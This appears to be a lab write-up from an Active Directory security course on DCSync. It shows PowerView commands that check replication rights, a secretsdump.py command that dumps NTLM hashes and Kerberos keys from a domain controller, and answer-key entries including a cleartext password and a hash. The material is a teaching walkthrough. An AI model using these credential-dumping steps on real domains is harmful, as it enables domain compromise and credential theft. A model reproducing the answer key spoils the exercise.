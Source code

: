 <div align='center'>

# **Lab 17: DCSync** 

</div>

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

**Check permission for user adunn**

```powershell
$sid3 = Convert-NameToSid adunn
Get-DomainObjectACL -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid3} -Verbose
```

![](../imgs/Lab/Lab15/7.png)

**Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```zsh
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

Enter `SyncMaster` as the password when prompted.

All hashes will be write to files with the prefix `inlanefreight_hashes`

![](../imgs/Lab/Lab17/1.png)

These files contain: the NTLM hashes, Kerberos keys, cleartext passwords from the NTDS for any accounts set with reversible encryption enabled

**Viewing an Account with Reversible Encryption Password Storage Set**

![](../imgs/Lab/Lab17/2.png)

When this option is set on a user account, it does not mean that the passwords are stored in cleartext. Instead, they are stored using RC4 encryption. The key needed to decrypt them is stored in the registry (the Syskey) and can be extracted by a Domain Admin or equivalent

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

![](../imgs/Lab/Lab17/3.png)

**Displaying the Decrypted Password**

![](../imgs/Lab/Lab17/4.png)

**Question:** Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.

- **Answer**: `syncron`

![](../imgs/Lab/Lab17/5.png)

**Question:** What is this user's cleartext password?

- **Answer**: Mycleart3xtP@ss!

![](../imgs/Lab/Lab17/6.png)

**Question:** Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.

![](../imgs/Lab/Lab17/7.png)

- **Answer**: 4bb3b317845f0954200a6b0acc9b9f9a

![](../imgs/Lab/Lab17/8.png)